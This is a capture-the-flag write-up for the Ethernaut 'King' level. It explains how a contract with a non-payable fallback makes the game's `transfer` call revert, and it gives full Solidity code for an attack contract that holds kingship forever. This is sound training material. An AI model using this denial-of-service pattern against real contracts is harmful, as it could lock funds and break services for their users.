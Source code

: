 ## Ethernaut Level 09 - King - Write-Up
<!--Authors: OofedUp-->

Difficulty: 6/10

Objective: When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

![image](https://i.imgur.com/SwYCdF9.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

We have to first become king by triggering the fallback function with a value higher than `prize` (which at first is 1 ETH).

After we become king, we must somehow make the fallback function fail when the level gets submitted. We can cause a fail here:

```javascript
king.transfer(msg.value);
```

By becoming king from a contract which has a non payable fallback function (or doesn't have fallback function at all), `king.transfer(msg.value)` will fail, because `address.transfer` will throw an error on failure, unlike `address.send`.

Here's the contract I used:

```javascript

interface King{

}

contract KingForever{
    King game;
    address target = ADDR_OF_INSTANCE_HERE;
    address public owner;

    function KingForever() payable{
        game = King(target);
        owner = msg.sender;
    }

    function becomeKing(){
        target.call.value(1.00001 ether)( );
    }

    function(){
        //Not payable causes error
    }

    function getBack() public{
        require(msg.sender == owner);
        owner.send(this.balance);
    }
}
```

Keep in mind we need to transfer the contract `1.00001` on creation, so it can pay the King contract. After we call the `becomeKing()` function we can submit the instance since it will fail:

![image](https://i.imgur.com/n4ES9Q8.png)
